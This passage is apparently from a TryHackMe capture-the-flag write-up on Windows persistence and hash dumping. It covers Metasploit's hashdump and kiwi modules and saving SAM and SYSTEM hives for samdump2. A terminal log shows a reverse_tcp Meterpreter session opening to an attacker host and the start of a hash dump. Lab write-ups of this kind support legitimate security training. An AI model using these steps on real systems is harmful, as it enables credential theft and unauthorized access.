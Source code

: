 1. Read the above

`No answer needed`

## Task 4 [EXTRA] Hash dumping

**What is hash dumping?**

Hash dumping is the technique used by penetration testers to extract the password hashes off of the target system to either crack them or to try to do lateral movement.
The simplest way to do hash dumping is by using Metasploit's hashdump/kiwi module:

![](https://i.imgur.com/y0TdRu7.png)

The same result can be achieved by saving the SAM and SYSTEM registries, downloading the files and using samdump2.
Let's save first the registries on the target machine:

![](https://i.imgur.com/CQc638I.png)

With the registries saved download the files to the attacker machine and use samdump2 to recover the hashes.

![](https://i.imgur.com/KzxBXqG.png)

It seems some users do not appear, only their hashes. However, for that issue, you can query for users that are on the system.

You can dump credentials using kiwi, which is the equivalent of mimikatz. To do that you'll need to load the module: `load kiwi`.
The command used to dump the SAM database hashes is: `lsa_dump_sam`

![](https://i.imgur.com/mwQkA5z.png)

There are more ways of dumping hashes and multiple tools and scripts that can be used for this purpose.

Note: If planning to use the offline cracking method the passwords are contained in the following wordlist from seclists: 100k-most-used-passwords-NCSC.txt (/usr/share/seclists/Passwords/Common-Credentials). In case you do not have seclists installed you can do it by usingthe following command: `sudo apt-get install seclists` .

```
bibo318@parrot:~/CTFs/tryhackme/Persistence$ msfconsole -q
[*] No payload configured, defaulting to windows/x64/meterpreter/reverse_tcp
msf5 exploit(windows/smb/ms17_010_eternalblue) > use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf5 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf5 exploit(multi/handler) > set LHOST 10.8.106.222
LHOST => 10.8.106.222
msf5 exploit(multi/handler) > set LPORT 9002
LPORT => 9002
msf5 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.8.106.222:9002
[*] Sending stage (176195 bytes) to 10.10.98.70
[*] Meterpreter session 1 opened (10.8.106.222:9002 -> 10.10.98.70:50074) at 2020-10-30 22:27:27 +0100

meterpreter > run post/windows/gather/hashdump

[*] Obtaining the boot key...
[*] Calculating the hboot key using SYSKEY 31066436b67d1dfb03c9f249b9aed099...
[*] Obtaining the user list and keys...
[*] Decrypting user keys...
[*] Dumping password hints...
```